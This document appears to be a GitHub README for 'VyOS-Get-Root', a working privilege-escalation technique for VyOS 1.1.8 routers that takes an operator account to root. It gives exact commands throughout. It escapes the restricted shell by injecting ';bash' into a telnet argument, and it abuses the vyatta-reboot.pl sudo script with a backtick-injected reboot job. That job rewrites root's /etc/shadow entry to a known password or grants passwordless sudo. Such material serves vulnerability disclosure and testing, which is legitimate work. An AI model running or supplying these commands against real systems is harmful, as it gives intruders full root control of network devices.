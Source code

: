 # VyOS-Get-Root
Privilege escalation to root on VyOS from an operator CLI

VyOS is an open source network operating system.  If you have operator-level console access on VyOS (or possibly another OS derived from Vyatta - Brocade vRouter or Ubiquiti EdgeOS) then you can use this technique to gain console access as root.  This has been tested on VyOS version 1.1.8.

The operator mode is already known to be insecure in other ways, so the account is normally not available.  However some administrators have manually added operator accounts.  Here is an example of how an operator account could be created.

```
configure
set system login user operator level operator
set system login user operator authentication plaintext-password Operator123
commit
save
```

Once logged in as `operator` with the password of `Operator123` in this example, you will be dropped into a restricted shell `/opt/vyatta/bin/restricted-shell` that normally does not have configuration write capabilities or access to the bash shell and commands.

Execute the following command to escape out of the `restricted-shell` and acquire a normal `bash` shell:<br />
`telnet "127.0.0.1;bash"`

See that you can now execute bash commands:<br />
`id`<br />
`sudo -l`

You should notice from the above command that an operator has limited sudo capabilities to scripts located under `/opt/vyatta/bin/sudo-users/`

You can exploit the `vyatta-reboot.pl` script to change the root password:<br />
``echo '`ROOTPW=$(openssl passwd -1 pwn3d); echo "root:$ROOTPW:17481:0:99999:7:::" > /tmp/shadow; tail -n +2 /etc/shadow >> /tmp/shadow; mv /tmp/shadow /etc/shadow; chmod 640 /etc/shadow; chown root:shadow /etc/shadow`' > /var/run/reboot.job``

`sudo /opt/vyatta/bin/sudo-users/vyatta-reboot.pl --action show_reboot`

`rm /var/run/reboot.job`

Now exit the CLI as the operator account and login as `root` with a password of `pwn3d`.

As an alternative to changing/setting root's password you could remove sudo restrictions on the `operator` account:<br />
``echo '`cp /etc/sudoers /tmp/; echo "%operator ALL=NOPASSWD: ALL" >> /tmp/sudoers; mv /tmp/sudoers /etc/; chmod 440 /etc/sudoers; chown root:root /etc/sudoers`' > /var/run/reboot.job``

`sudo /opt/vyatta/bin/sudo-users/vyatta-reboot.pl --action show_reboot`

`rm /var/run/reboot.job`

Now exit the CLI as the operator account and log back in as operator.  Break out of the restricted shell, escalate to a root shell and verify.<br />
`telnet "127.0.0.1;bash"`

`sudo su -`

`id`

